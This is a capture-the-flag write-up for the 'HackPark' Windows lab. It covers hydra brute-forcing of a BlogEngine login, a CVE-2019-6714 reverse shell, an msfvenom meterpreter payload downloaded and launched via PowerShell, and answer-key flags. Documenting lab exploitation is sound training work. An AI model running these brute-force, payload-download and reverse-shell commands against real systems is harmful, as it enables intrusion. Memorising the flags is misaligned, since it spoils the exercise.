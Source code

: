 # HACK PARK

## BASIC INFO
```
export IP=10.10.55.244

80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T06:22:06+00:00; -39s from scanner time.
```

## USING HYDRA TO BRUTE-FORCE A LOGIN

> - **What request type is the Windows website login form using?**
>> POST

In order to run hydra we need to supply the argument in urlencoded format. Refer to [this](urlencode.py) script for how to encode with urllib.

Running the following command will gives us the password.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/Account/login.aspx:ctl00%24MainContent%24LoginUser%24UserName=admin&__EVENTVALIDATION=%2FR%2BmdTL%2FGWcCAUXLZ%2FHn36sbZ2AnlRTa1fQjpaUiDVremHkUfE%2F2wYoO%2B1H9E0WKYBtgbkGAfxjZX9etzDTsNtNchnNX5aRyrYyhc9kwC9IrsM%2FZmOl5mQtb5UfhN36p7hpfAhJ5vR1ehq8TJreppnTAJqCO9Dhk7yfxQz7gDuzBqlcj&__VIEWSTATE=9o3SmBZrJRQzfy7kkCOyg1NKfTXN9SunW5hHb0JM5r%2Fubhb%2FsUbr8XKtIkHyfD1mLN474Sg%2BpPuXWdMiqPAaX5eeuWiEmcjo%2FoRLYfMAEBQY7TmjTLJWpDM8pjhAtbQj0uT%2FeK%2BfW5Q5bWMVHOQJG1VsLSZk4UlrOHv0rfoxOl6M2svR&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=LoginButton:Login failed"

```

> Password = 1qaz2wsx

## COMPROMISE THE MACHINE

> - **Now you have logged into the website, are you able to identify the version of the BlogEngine?**
>> 3.3.6.0

It is under About page.

> - **Use the exploit database archive to find an exploit to gain a reverse shell on this system.**
>> CVE-2019-6714

> - **Using the public exploit, gain initial access to the server.\
Who is the webserver running as?**
>> iis apppool\blog

Referring to the explanation in [this](PostView.ascx) script.\
First we host a web server with `python3 -m http.server`\
Then on the web page we navigate to post, edit post, upload files and upload [PostView.ascx](PostView.ascx).\
We need to set up a listener on our host machine as well with the command `nc -lnvp 9001`\
After that, we navigate to the URL `http://$IP/?theme=../../App_Data/files` and we should get a reverse shell on our host machine.

## WINDOWS PRIVILEGE ESCALAITON

> - **Generate a payload with msfvenom**
>> No answer needed

To generate a payload use the command below
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9002 -f exe -o shell.exe
```

Then we upload it to the remote machine.\
On the remote machine.\
```
cd %TEMP%
powershell -c "Invoke-WebRequest http://10.8.8.177/shell.exe -OutFile shell.exe"
``` 
*Tip: It's common to find C:\Windows\Temp is world writable!*\


Then we set up a listener on our host machine with msfconsole.\
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 9002
run
```

Back on the remote machine, we execute the following command to run shell.exe.\
```
powershell -c "Start-Process shell.exe"
```

Then we should get a meterpreter on msfconsole now.

> - **What is the OS version of this windows machine?**
>> Windows 2012 R2 (6.3 Build 9600)

> - **What is the name of the abnormal service running?**
>> Answer not found yet...

> - **What is the name of the binary you're supposed to exploit?**
>> Message.exe

> - **Using this abnormal service, escalate your privileges!\
What is the user flag (on Jeffs Desktop)?**
>> 759bd8af507517bcfaede78a21a73e39

> - **What is the root flag?**
>> 7e13d97f05f7ceb9881a3eb3d78d3e72